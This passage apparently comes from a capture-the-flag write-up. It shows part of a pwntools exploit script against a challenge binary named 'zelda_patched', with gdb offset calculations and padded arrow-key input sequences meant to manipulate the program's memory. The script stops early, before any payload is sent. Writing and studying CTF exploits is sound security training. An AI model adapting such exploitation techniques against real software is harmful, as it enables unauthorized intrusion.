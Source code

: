 ## Putting It All Together

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./zelda_patched")

context.binary = exe
debug_script='''
b *main+35
c
p/x (long)rooms >> 12
p/x (long)SP >> 12
p/x ((long)SP >> 12) - ((long)rooms >> 12)
p/x ((long)SP & 0xfff) - ((long)rooms & 0xfff)
c
'''

# pageoff = 0x341
# constoff = 0x280
# totaloff = 0x341280
#
# noecho: SP + 30c

def conn():
    if args.REMOTE:
        p = remote("mc.ax", 31869)
    elif args.D:
        p = gdb.debug([exe.path], gdbscript=debug_script)
    else:
        p = process([exe.path], stdin=PIPE, stdout=PIPE, raw=True)

    return p

def main():
    p = conn()
    
    # tick 197 certified
    UP = [b"\x1b[A"]
    DOWN = [b"\x1b[B"]
    RIGHT = [b"\x1b[C"]
    LEFT = [b"\x1b[D"]
    PUT = [b"p"] 
    GET = [b"g"] 

    out = open("payload.txt", "wb")

    def go(cmds):

        padded_len = len(cmds) + 0x28 - len(cmds)%0x28
        cmds = cmds + [b" "] * (padded_len - len(cmds))
        s = b"".join(cmds)

        p.send(s)
        out.write(s)

    go(LEFT*6)
    go(LEFT*6)
    go(LEFT)
    go(LEFT + UP)
    go(LEFT)
```